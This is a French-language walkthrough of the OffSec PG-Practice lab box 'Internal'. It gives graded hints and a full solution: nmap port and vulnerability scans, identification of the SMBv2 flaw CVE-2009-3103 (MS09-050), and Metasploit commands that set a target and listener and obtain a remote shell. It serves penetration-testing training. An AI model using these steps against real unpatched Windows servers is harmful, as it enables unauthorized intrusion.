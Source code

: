 ```yaml
---
title: PG-Practice Internal 
meta_title: ""
description: La box Internal est une box proposée par l'Offsec dans sa catégorie PG-Practice. Il s'agit d'une box Windows Easy exploitant une vulnérabilité SMB peu connue. Elle ne requiert pas d'élévation de privilèges.
date: 2024-04-04T05:00:00Z
image: /images/offsec-banner.jpg
categories:
  - Réaliste
  - Facile
author: Emma.exe
tags:
  - realiste
  - pg-practice
  - offsec
draft: false
---
```


## Introduction

La box Internal est une box proposée par l'Offsec dans sa catégorie PG-Practice.
Il s'agit d'une box Windows Easy exploitant une vulnérabilité SMB peu connue.
Elle ne requiert pas d'élévation de privilèges.

Pour la résolution de ce challenge je vous propose deux niveaux d'aide : 
- Le premier niveau sous la forme d'indices et de ressources à explorer pour résoudre le challenge, sans pour autant donner la solution
- Le deuxième niveau qui présente un exemple de résolution.

{{< notice "tip" >}} Essayez de ne pas regarder la solution si vous voulez vraiment progresser. Une fois le challenge résolu, il peut être intéressant de la regarder pour apprendre de nouvelles techniques ! {{< /notice >}}


## Enumération

{{< tabs >}} {{< tab "Niveau 1" >}}
On commence toujours par énumérer la machine avec nmap.
Veillez à bien énumérer tous les ports de la machine pour être sûrs de ne rien manquer.
En effet, il est courant que les créateurs des box modifient les ports par défaut.
Ainsi, on peut très bien trouver un site web sur le port 8080 par exemple.

Une fois que vous possédez une meilleure connaissance de votre machine, des services qui tournent etc, vous pouvez partir à la recherche de vulnérabilités.

Il est important d'énumérer la machine **entièrement** avant de passer à la phase d'exploitaiton pour éviter de perdre trop de temps.

Si vous ne trouvez pas de vulnérabilités, c'est certainement que vous n'avez pas assez énumérer.

Pour la recherche de vulnérabilités, connaissez-vous **Nmap Script Engine (NSE)** ?

{{< /tab >}}

{{< tab "Niveau 2" >}}
Pour l'énumération, j'utilise les options suivantes : 
- `-p-` pour énumérer tous les ports
- `-sV` pour obtenir les versions des services

Résultats :
```sh
nmap -p- 192.168.242.40 -sV            
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-06-02 09:26 EDT
Nmap scan report for 192.168.242.40
Host is up (0.016s latency).
Not shown: 65522 closed tcp ports (conn-refused)
PORT      STATE SERVICE            VERSION
53/tcp    open  domain             Microsoft DNS 6.0.6001 (17714650) (Windows Server 2008 SP1)
135/tcp   open  msrpc              Microsoft Windows RPC
139/tcp   open  netbios-ssn        Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds       Microsoft Windows Server 2008 R2 microsoft-ds (workgroup: WORKGROUP)
3389/tcp  open  ssl/ms-wbt-server?
5357/tcp  open  http               Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
49152/tcp open  msrpc              Microsoft Windows RPC
49153/tcp open  msrpc              Microsoft Windows RPC
49154/tcp open  msrpc              Microsoft Windows RPC
49155/tcp open  msrpc              Microsoft Windows RPC
49156/tcp open  msrpc              Microsoft Windows RPC
49157/tcp open  msrpc              Microsoft Windows RPC
49158/tcp open  msrpc              Microsoft Windows RPC
Service Info: Host: INTERNAL; OS: Windows; CPE: cpe:/o:microsoft:windows_server_2008::sp1, cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_server_2008:r2

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 96.70 seconds
```

Il n'y a rien de particulier d'ouvert, on peut tester si la vulnérabilité MS10 17 (eternal blue) est présente sur la machine : 
```sh
nmap -p445 --script smb-vuln-ms17-010 192.168.242.40
```

C'est effectivement vulnérable !
**Cependant**, il est important d'énumérer la machine entièrement avant de passer à la phase d'exploitation.

Nous allons donc effectuer un autre scan de vulnérabilité plus généraliste avec nmap : 
```sh
nmap --script vuln 192.168.242.40 
Host script results:
| smb-vuln-cve2009-3103: 
|   VULNERABLE:
|   SMBv2 exploit (CVE-2009-3103, Microsoft Security Advisory 975497)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2009-3103
|           Array index error in the SMBv2 protocol implementation in srv2.sys in Microsoft Windows Vista Gold, SP1, and SP2,
|           Windows Server 2008 Gold and SP2, and Windows 7 RC allows remote attackers to execute arbitrary code or cause a
|           denial of service (system crash) via an & (ampersand) character in a Process ID High header field in a NEGOTIATE
|           PROTOCOL REQUEST packet, which triggers an attempted dereference of an out-of-bounds memory location,
|           aka "SMBv2 Negotiation Vulnerability."
|           
|     Disclosure date: 2009-09-08
|     References:
|       http://www.cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2009-3103
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2009-3103
|_smb-vuln-ms10-061: Could not negotiate a connection:SMB: Failed to receive bytes: TIMEOUT
|_samba-vuln-cve-2012-1182: Could not negotiate a connection:SMB: Failed to receive bytes: TIMEOUT
|_smb-vuln-ms10-054: false

```

On voit que la machine est aussi vulnérable à la faille "**SMBv2 Negotiation Vulnerability**" c'est-à-dire la **CVE-2009-3103**. Il est plus probable que ce soit cette vulnérabilité-là que l'auteur de la box veut nous faire exploiter.
En effet, elle est très intéressante puisqu'elle va permettre d'effectuer une RCE (Remote Execution Code) et potentiellement nous permettre d'obtenir un shell interactif. 
{{< /tab >}}
{{< /tabs >}}

## Recherche d'exploit


{{< tabs >}} {{< tab "Niveau 1" >}}

Afin de rechercher des exploits, vous pouvez utiliser la commande : `searchsploit`.
Searchsploit est un outil en ligne de commande qui permet de rechercher et télécharger des exploits depuis le site exploit-db.

Afin de faire une recherche efficace, n'hésitez pas à varier vos mots-clefs. Souvent une vulnérabilité porte plusieurs noms.
Sur exploit-db, il est rare de trouver les noms des CVE.

Autre ressource : Nous avons créer une documentation Meterpreter si vous souhaitez l'utiliser pour résoudre ce challenge : [Meterpreter](../../fiche/meterpreter)

{{< /tab >}}
{{< tab "Niveau 2" >}}
Afin de trouver un exploit, je commence par me renseigner sur la vulnérabilité.
Premièrement, les vulnérabilités Windows sont souvent appelés par l'indicatif Microsoft.
Dans notre cas, on voit qu'elle est aussi appelé "MS09-050".
La vulnérabilité est due à une mauvaise implémentation du protocole SMBv2 dans certaines versions de Windows

Je fais une recherche sur le site https://exploit-db.com en utilisant MS09-050 et je constate qu'il existe plusieurs exploits.

exploit-db nous permet de voir si l'exploit a été vérifié ou non. Dans la mesure du possible, on privilégie les exploits qui le sont.

> Si vous décidez de choisir un exploit non vérifié, il est important de regarder ce que fait réellement l'exploit. 

Ici il n'y en a qu'un seul vérifié, disponible ici : 
https://www.exploit-db.com/exploits/16363

Il s'agit d'un module Metasploit.
{{< /tab >}}
{{< /tabs >}}

## Exploitation

{{< tabs >}} {{< tab "Niveau 1" >}}

Pour la phase d'exploitaion, veillez à bien renseigner les options dont nécessite l'exploit que vous souhaitez utiliser.

Si celui-ci a besoin de notre IP locale, pensez à renseigner celui de l'interface vers le réseau de l'Offsec.  

Enfin, il existe de nombreux exploits pour une seule faille. Si le premier ne fonctionne pas, tentez-en un autre. 

{{< /tab >}}
{{< tab "Niveau 2" >}}
Nous lançons donc Metasploit en sudo :
```sh
sudo msfconsole
```

On recherche l'exploit en recherchant son ID : 
```sh
search exploit ms09_050_smb2_negotiate_func_index
```

Il devrait normalement apparaitre dans la recherche. 
{{< image src="images/PG-Internal-msfconsole-search.png" caption="" alt="alter-text" height="" width="" position="center" command="fill" option="q100" class="img-fluid" title="image title" webp="false" >}}
On récupère son chemin et on tape la commande :

```sh
use exploit/windows/smb/ms09_050_smb2_negotiate_func_index  
```

On affiche les options que nécessite l'exploit pour fonctionner en tapant la commande : 
```sh
show options
```

{{< image src="images/PG-Internal-msfconsole-options.png" caption="" alt="alter-text" height="" width="" position="center" command="fill" option="q100" class="img-fluid" title="image title" webp="false" >}}

On voit deux options requises qui ne sont automatiquement renseignée ou qu'il faut modifier : l'hôte distant (Remote Host) et l'hôte qui va réceptionner le shell (Listen Host).

On configure les options comme suit : 
```sh
set RHOSTS <ip-cible>
set LHOST <ip-local>
```

> Pour l'IP local, il faut bien choisir l'IP de l'interface qui communique avec le réseau Offsec (généralement celle de tun0)

On exécute l'exploit en tapant la commande : 
```sh
run
```

Au bout de quelques instants, on obtient un shell et on récupère le flag qui se trouve toujours sur le bureau Administrateur.

{{< /tab >}}
{{< /tabs >}}
